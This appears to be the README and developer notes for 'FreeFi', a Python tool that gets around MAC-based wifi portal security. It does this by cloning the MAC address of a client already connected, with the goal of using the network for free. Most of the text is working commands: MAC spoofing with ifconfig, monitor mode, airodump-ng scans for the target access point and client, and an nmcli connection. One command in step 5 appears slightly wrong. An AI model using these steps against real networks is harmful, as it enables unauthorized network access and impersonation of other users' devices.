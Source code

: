 # FreeFi

Temp dev notes from Steve:
- wifite was very helpful in helping understand some of the gotchas around setting up the wifi device

- Renamed to FreeFi and set the !# bash interpreter line so it will auto-use python when running FreeFi like an executable, you might need to chmod +x it if exe bit not set

- NetworkManager by default in Kali anonymizes and changes the mac address of at least the wifi card automatically every few minutes which is a problem as it conflicts with
our spoofing. Adding file /etc/NetworkManager/conf.d/{anyname}.conf to stop NetworkManager from changing mac addr constantl with contents:

    [device]
    wifi.scan-rand-mac-address=no

    [connection]
    ethernet.cloned-mac-address=preserve
    wifi.cloned-mac-address=preserve

then 'service network-manager restart' if necessary

- ethtool -P wlan0   to get permanent mac address

---- writeup summary below ----

-- FreeFi is a 500+ line python program to bypass MAC based security in wifi portals
-- user supplies wifi interface to use, wlan0 for example
-- step 1: use 'ifconfig' to anonymize our mac address (just to be paranoid and make sure out mac doesn't get out there)
  ifconfig wlan0 down
  ifconfig wlan0 hw ether {random mac address}
  ifconfig wlan0 up
-- step 2: use 'ifconfig' and 'iwconfig' to put wifi adapter in monitor mode
  ifconfig wlan0 down
  iwconfig wlan0 mode monitor
  ifconfig wlan0 up 
-- step 3: use 'airodump-ng' to scan for access points. Airodump writes a CSV file to disk every second
and we parse that CSV file and show the output to the user. When the user sees the AP they want to attack, they ctrl-c and select the access point
  airodump-ng -a --write-interval 1 -w ff-airodump -o csv wlan0
                        "-a",                               # filter unassociated clients
                        "--write-interval", "1",            # write once a second
                        "-w", AIRODUMP_FILE_NAME_PREFIX,    # output file prefix
                        "-o", "csv",                        # only need the csv file
                        iface_name] 

-- step 4: use 'airodump-ng' with diff params to scan for clients connected to the target AP, same as
above airodump write a CSV file that we parse in real time to show client, user presses ctrl-c when
ready and selects a target
  airodump-ng -a --write-interval 1 -w ff-airodump -o csv -c ap_channel --bssid target_bssid
                        "-a",                                   # filter unassociated clients
                        "--write-interval", "1",                # write once a second
                        "-w", AIRODUMP_FILE_NAME_PREFIX,        # output file prefix
                        "-o", "csv",                            # only need the csv file
                        "-c", str(target_access_point.channel), # only scan target ap channel
                        "--bssid", target_access_point.bssid,   # filter for target ap bssid
                        iface_name] 
 
 -- step 5: now we have a target AP and target client, so disable monitor mode on the adapter:  
  ifconfig wlan0 down
  ifconfig wlan0 mode managed
  ifconfig wlan0 up
 set our MAC addr to the client MAC addr:
  ifconfig wlan0 down
  ifconfig wlan0 hw ether target_client_mac_addr
  ifconfig wlan0 up
and then connect to the AP:
  nmcli device wifi connect {access point ssid}
and stay connected while we use the free wifi!

-- step 6: when user is done, they hit ctrl-c and FreeFi disconnects from AP, returns MAC
address to original mac address and quits

learnings and difficulties
- FreeFi is formatted to look similar to wifite, just because it's kinda cool
- discovered that Kali by default randomizes its wifi mac address every few minutes, took a bit
to figure out how to turn that behavior off correctly as it obviously interferes with us
setting the mac address to match the target client
- didn't want to confuse or kill NetworkManager so it took some time to get all of the wifi commands
we're doing to not interfere with NetworkManager so that we can still use it to connect
 to AP (unlike tools like aircrack that might recommend that you kill network manager)
- took a while to figure out which tools give the desired effect, documentation is lacking
in general, often the stuff I can find online is wrong or outdated or just didn't do anything
at all. For example, Using nmcli to connect to wifi AP was the only way that worked reliably vs
using 'iwconfig wlan0 essid {access_point}'
- 